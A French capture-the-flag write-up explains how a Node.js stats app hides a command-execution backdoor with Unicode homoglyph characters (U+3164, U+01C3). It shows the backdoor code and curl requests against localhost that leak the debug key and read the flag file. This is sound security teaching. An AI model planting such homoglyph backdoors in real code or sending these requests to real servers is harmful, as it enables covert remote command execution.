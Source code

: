 > Name: Posticum
> 
> Category:  Web
> 
> Difficulty: Easy
> 
> Description: 
> *Sharing is caring, but sometimes there are too many small projects that don't seem useful at first glance.*
> 
> *Posticum is a one of these projects created by a supposed sysadmin called Bakdyr. It appears suspicious... Can you look into it ?*

![preview](posticum_preview.png)

Ce projet opensource permet d'afficher le résultat de certaines commandes telles que `vmstat` ou `mpstat`. Mais il y a aussi une fonctionnalité qui permet d'exécuter une commande arbitraire si on connait la valeur de `secret`.

```js
const secret = require('crypto').randomBytes(48).toString('hex')
//...
let { html , debugㅤ, cmd , cache } = req.query
// ...
if ( cmd && debugㅤ== secret )
	output += await exec(cmd).toString()
```

Si on se fie à la logique de ce code, il faudrait donc envoyer dans les paramètres de l'URL `debug` avec le bon secret et `cmd` avec la commande à exécuter. Sauf que secret semble difficilement devinable et bruteforçable.

En copiant le code de `app.js` dans un éditeur de texte moderne (sublime, vscode, etc), on remarque des choses étranges. 

![vscode](posticum_vscode.png)

Il y a des caractères qu'on pense être des espaces et des points d'exclamation qui ne le sont pas :
* `debugㅤ` : cette variable contient en réalité le caractère unicode `U+3164` (https://unicode-explorer.com/c/3164) qui ressemble à un espace
* `debugǃ=secret` : cette expression est équivalente à une assignation  `debugǃ = secret` car ce qui ressemble à un point d'exclamation est également un caractère unicode `U+01c3` (https://unicode-explorer.com/c/01c3)

Les techniques ci-dessus sont utilisées pour cacher une backdoor comme expliqué dans ce paper : https://certitude.consulting/blog/en/invisible-backdoor/

### Exploitation

Dans un premier temps, on peut faire fuiter le secret en faisant une requête avec la variable trompeuse `debug%E3%85%A4` (lignes 14, 17-19)

```bash
$> curl "127.0.0.1/systemstats?debug%E3%85%A4=1&html=1"

Incorrect debug key cf34db89032c6115e05a6a7c0205a5821245021426da5c833cffdd6120d5508a6f66bb99b698950476f1eeaafa3e78f9
```

Maintenant qu'on est en possession de la clé, on peut exécuter une commande arbitraire et récupérer le flag.

```bash
$> curl "http://127.0.0.1/systemstats?debug%E3%85%A4=<debug_key>&cmd=cat+flag.txt&html=1"

ALG{Homoglyph_Alternative_Backdoors}
```

### Bonus

Les indices qu'il y avait :
* Ρоѕτіϲυⅿ : ce mot contient des caractères unicode et en latin veut dire "la porte de derrière"

* bakdyr : backdoor en islandais

* `real sysadmins use nano to edit files` : on nous demande d'utiliser nano parce qu'on n'y voit pas les homoglyphes =)
